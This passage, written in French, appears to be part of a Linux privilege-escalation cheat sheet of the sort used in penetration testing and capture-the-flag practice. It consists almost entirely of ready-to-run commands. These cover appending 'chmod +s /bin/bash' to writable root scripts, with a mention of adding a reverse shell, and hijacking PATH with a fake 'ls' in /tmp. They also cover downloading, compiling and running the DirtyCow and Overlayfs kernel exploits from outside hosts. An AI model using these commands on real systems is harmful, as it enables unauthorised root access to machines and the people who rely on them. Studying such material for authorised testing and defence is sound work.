 ### **4. Exploitation de fichiers writeable**

#### **Scripts exécutés par root**
```bash
# Recherche de scripts modifiables exécutés par root
find / -type f -perm -002 2>/dev/null | grep -E "\.(sh|py|pl)$"

# Vérifier propriétaire et permissions
ls -la /opt/backup-script.sh
# Si writable : ajouter reverse shell ou chmod +s /bin/bash
echo "chmod +s /bin/bash" >> /opt/backup-script.sh
```

#### **Modification de PATH**
```bash
# Si un script root utilise commandes sans chemin absolu
# Créer faux binaire dans PATH contrôlé
echo '#!/bin/bash' > /tmp/ls
echo 'chmod +s /bin/bash' >> /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
```

### **5. Kernel Exploits**

#### **Identification des vulnérabilités kernel**
```bash
# Version exacte du kernel
uname -r

# Recherche d'exploits
searchsploit linux kernel $(uname -r)
searchsploit ubuntu $(lsb_release -r | cut -f2)

# Sites utiles pour kernel exploits :
# - exploit-db.com
# - github.com/SecWiki/linux-kernel-exploits
```

#### **Exploits kernel courants**
```bash
# DirtyCow (CVE-2016-5195) - Kernel 2.6.22 - 4.8.3
wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c
gcc -pthread pokemon.c -o pokemon
./pokemon

# Overlayfs (CVE-2015-1328) - Ubuntu 12.04-15.10
wget https://www.exploit-db.com/download/37292
gcc 37292.c -o 37292
./37292
```
